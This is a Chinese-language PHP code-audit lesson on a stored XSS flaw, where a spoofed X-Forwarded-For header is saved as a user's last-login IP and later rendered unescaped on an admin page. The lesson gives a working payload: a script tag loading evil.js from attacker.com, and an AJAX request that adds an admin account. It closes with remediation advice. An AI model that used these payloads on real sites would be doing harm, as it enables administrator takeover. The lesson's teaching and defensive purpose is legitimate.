# i春秋学院 进阶篇 PHP代码审计 - P8：XSS后台敏感操作教程 🔍

在本节课中，我们将学习如何通过持久型XSS漏洞，利用后台管理功能执行敏感操作，例如添加管理员账户。

---

## 概述

XSS表示跨站脚本攻击。它与SQL注入攻击类似，但XSS攻击通过插入恶意脚本实现对用户浏览器的控制。XSS攻击主要分为非持久型和持久型两种。本节课重点讲解持久型攻击，即将攻击代码存储到服务端，当其他用户（如管理员）加载包含该代码的页面时，代码会被执行。



## XSS攻击原理

XSS攻击的核心在于将恶意脚本插入到网页中。当用户浏览该页面时，嵌入的脚本会被执行。持久型XSS攻击将恶意代码存储在服务器上，因此攻击效果会持续存在。

**攻击流程**：
1.  攻击者将恶意脚本提交到服务器并存储。
2.  管理员访问包含该脚本的页面。
3.  恶意脚本在管理员浏览器中执行，以管理员身份执行敏感操作。

## 代码审计与漏洞定位

上一节我们介绍了XSS的基本概念，本节中我们来看看如何在具体代码中寻找漏洞。

审计发现，`getIP`函数用于获取用户IP地址，其代码如下所示：

```php
function getIP() {
    $ip = $_SERVER['HTTP_CLIENT_IP'] ?? $_SERVER['HTTP_X_FORWARDED_FOR'] ?? $_SERVER['REMOTE_ADDR'];
    return $ip;
}
```

该函数从HTTP头部信息获取IP，顺序为：`HTTP_CLIENT_IP` -> `HTTP_X_FORWARDED_FOR` -> `REMOTE_ADDR`。其中，`HTTP_CLIENT_IP`和`HTTP_X_FORWARDED_FOR`这两个头部信息可以被用户伪造。

搜索代码发现，`getIP`函数在用户登录时被调用，获取的IP地址经过过滤后存入数据库的`lastip`字段。关键点在于，此处的过滤仅针对SQL注入，并未对XSS攻击进行防范。



```php
// 登录时记录IP
$ip = getIP();
$filtered_ip = anti_sql_injection($ip); // 仅过滤SQL注入
$sql = "UPDATE users SET lastip='$filtered_ip' WHERE username='$username'";
```

## 漏洞利用链分析

接下来，我们需要找到`lastip`字段在何处被输出。



通过搜索，发现该字段在后台管理页面的用户管理模块（`/admin/manage_user.php`）中被直接输出。当管理员查看用户列表时，存储在`lastip`字段中的内容会被渲染到页面上。

检查数据库结构，`lastip`字段为`VARCHAR(255)`，最多可存储255个字符。

因此，完整的攻击链如下：
1.  攻击者在登录时，通过伪造`X-Forwarded-For`或`Client-IP`请求头，将XSS攻击代码作为“IP地址”提交。
2.  恶意代码被存入数据库的`lastip`字段。
3.  管理员登录后台，访问用户管理页面。
4.  页面加载并输出`lastip`字段的内容，嵌入的XSS代码在管理员浏览器中执行。



## 构造攻击载荷





由于255个字符的长度限制，直接编写复杂的攻击代码可能不够。通常采用加载远程JavaScript文件的方式。





以下是构造攻击载荷的步骤：





首先，准备一个远程的恶意JavaScript文件（例如`http://attacker.com/evil.js`），其内容可以是执行后台敏感操作的代码，例如添加管理员。

```javascript
// evil.js 内容示例：通过AJAX请求添加管理员
var xhr = new XMLHttpRequest();
xhr.open('POST', '/admin/manage_admin.php?action=add', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('username=xssadmin&password=123456');
```





然后，构造一个简短的XSS载荷，用于加载这个远程JS文件。这个载荷必须少于255个字符。

```html
<script src=http://attacker.com/evil.js></script>
```

## 实施攻击与演示





上一节我们分析了漏洞原理并构造了载荷，本节中我们来看看如何实施攻击。

1.  **伪造请求头**：使用浏览器插件（如HackBar）或代理工具（如Burp Suite），在登录请求中修改`X-Forwarded-For`或`Client-IP`头，将其值设置为我们的XSS载荷 `<script src=http://attacker.com/evil.js></script>`。
2.  **触发漏洞**：以普通用户身份携带伪造的请求头进行登录。
3.  **等待管理员触发**：当网站管理员访问后台的用户管理页面时，存储在`lastip`字段中的脚本标签会被浏览器解析并执行。
4.  **执行敏感操作**：恶意脚本`evil.js`被加载，该脚本会以管理员身份向`/admin/manage_admin.php`发送一个POST请求，添加一个新的管理员账户（用户名：`xssadmin`，密码：`123456`）。



攻击成功后，攻击者便可以使用新添加的管理员账户登录后台，从而获得系统控制权。



## 漏洞修复建议

修复此类漏洞的核心是对所有用户输入进行严格的过滤和转义。

1.  **输入过滤**：在`getIP`函数或数据入库前，对IP地址进行严格的格式验证（如检查是否为合法的IPv4/IPv6格式），并过滤或转义HTML特殊字符。
    ```php
    function safe_ip($ip) {
        // 1. 验证IP格式
        if (!filter_var($ip, FILTER_VALIDATE_IP)) {
            return '0.0.0.0';
        }
        // 2. 转义HTML实体，防止XSS
        return htmlspecialchars($ip, ENT_QUOTES, 'UTF-8');
    }
    ```
2.  **输出转义**：在将数据从数据库输出到HTML页面时，使用`htmlspecialchars()`等函数进行转义，确保任何用户输入都被当作文本显示，而非代码执行。
    ```php
    echo '最后登录IP：' . htmlspecialchars($user['lastip'], ENT_QUOTES, 'UTF-8');
    ```
3.  **内容安全策略**：部署CSP（Content Security Policy）HTTP头，限制页面只能加载来自可信源的脚本，可以有效遏制此类加载远程JS文件的攻击。
    ```
    Content-Security-Policy: default-src 'self';
    ```

## 总结

本节课中我们一起学习了持久型XSS漏洞的利用方法。我们通过代码审计，定位了`getIP`函数因未对输入进行XSS过滤而导致的存储型漏洞。随后，我们分析了该漏洞如何通过后台的用户管理功能被触发，并构造了攻击载荷，演示了如何利用该漏洞添加后台管理员账户。最后，我们探讨了通过输入验证、输出转义和部署CSP策略来修复此类漏洞的方法。理解并防范XSS攻击，对于保障Web应用安全至关重要。


---